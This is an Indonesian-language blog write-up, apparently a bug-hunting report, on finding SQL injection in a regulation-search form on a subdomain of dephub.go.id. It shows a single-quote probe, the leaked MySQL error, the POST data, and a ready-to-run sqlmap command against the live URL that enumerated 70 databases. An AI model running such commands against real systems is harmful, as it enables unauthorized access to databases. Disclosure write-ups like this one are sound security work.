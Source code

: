 ```yaml
---
title: SQL Injection at Subdomain dephub.go.id
date: 2019-10-21
---
```


Halo :D
Kembali lagi bersama saya :D
Kali ini saya ingin menjelaskan bagaimana saya bisa menemukan BUG SQL Injection pada Subdomain dephub.go.id ?
Let’s go!

![ ](https://miro.medium.com/max/24000/1*J6bG2_ibqeA_lodHkh452Q.png)

Ketika saya mencoba untuk mencari point inject nya, saya berpikir untuk mencari di kolom pencarian peraturan. Maka saya memasukkan input single quote (‘) pada kolom pencarian peraturan. Dan respons nya setelah saya input adalah

![ ](https://miro.medium.com/max/2400/1*hr9EiGPmSCHbaXuqYVpOLg.png)

'''
Respons
“ You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ‘%’ OR title like ‘%’%’ ) AND `state` IS NOT NULL ORDER BY `created` desc’ at line 3 “
'''

Sesudah Saya mendapatkan pesan error setelah memasukkan single quote (‘), lanjut Saya mencari post datanya menggunakan Live Http Header di Mozilla Firefox atau ke inspect element lalu ke bagian network. Berikut Post Data yang sudah Saya dapatkan

![ ](https://miro.medium.com/max/463/1*w4kGZXasP_gvD1-UezER4A.png)

Post Data: s=’&jenis_peraturan=0&nomor=&tahun=0

___

Selanjutnya saya Melakukan Scan di SQL Map Dengan Command

'''
sqlmap.py -u “http://jdih.dephub.go.id/pencarian” — data=”s=’&jenis_peraturan=0&nomor=&tahun=0” — dbs
'''

Hasil dari scannya adalah

![ ](https://miro.medium.com/max/2400/1*XD9FX5AbncHuhF1iDMM1rQ.png)

![ ](https://miro.medium.com/max/2400/1*hIdIwIYqVIJz2I0IGkcvzw.png)

available databases [70]
database management system users [14]

![ ](https://miro.medium.com/max/24000/1*i5PboXm1R4eSyhIew8VKwg.png)

Oke itu saja write up sederhana dari saya, Terima kasih sudah membaca write up saya ini. Jangan lupa share yaa, agar saya semangat untuk memberikan write up lagi :D

Contact me at [rafteday.net/about](https://rafterday.net/about)

